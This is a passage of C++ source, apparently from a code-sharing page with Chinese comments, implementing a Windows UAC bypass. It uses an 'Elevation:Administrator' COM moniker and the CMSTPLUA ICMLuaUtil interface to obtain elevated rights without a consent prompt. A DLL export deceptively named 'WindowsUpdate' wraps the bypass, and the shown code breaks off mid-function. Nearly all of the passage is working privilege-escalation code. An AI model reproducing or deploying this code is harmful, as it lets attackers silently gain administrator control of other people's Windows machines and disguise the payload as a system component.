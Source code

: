 ```c++
HRESULT CoCreateInstanceAsAdmin(HWND hWnd, REFCLSID rclsid, REFIID riid, PVOID *ppVoid);

BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable);

// 套壳CMLuaUtilBypassUAC
extern "C" _declspec(dllexport) void CALLBACK WindowsUpdate(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow);
```

BypassUAC.cpp

```c++
#include "pch.h"
#include "BypassUAC.h"
#include "Shlobj.h"
#include <atlconv.h>


HRESULT CoCreateInstanceAsAdmin(HWND hWnd, REFCLSID rclsid, REFIID riid, PVOID *ppVoid)
{
	BIND_OPTS3 bo;
	WCHAR wszCLSID[MAX_PATH] = { 0 };
	WCHAR wszMonikerName[MAX_PATH] = { 0 };
	HRESULT hr = 0;

	// 初始化COM环境
	::CoInitialize(NULL);

	// 构造字符串
	::StringFromGUID2(rclsid, wszCLSID, (sizeof(wszCLSID) / sizeof(wszCLSID[0])));
	hr = ::StringCchPrintfW(wszMonikerName, (sizeof(wszMonikerName) / sizeof(wszMonikerName[0])), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
	{
		return hr;
	}

	// 设置BIND_OPTS3
	::RtlZeroMemory(&bo, sizeof(bo));
	bo.cbStruct = sizeof(bo);
	bo.hwnd = hWnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;

	// 创建名称对象并获取COM对象
	hr = ::CoGetObject(wszMonikerName, &bo, riid, ppVoid);
	return hr;
}


BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil *CMLuaUtil = NULL;
	BOOL bRet = FALSE;

	do {
		::CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
		::IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

		// 提权
		hr = CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
		if (FAILED(hr))
```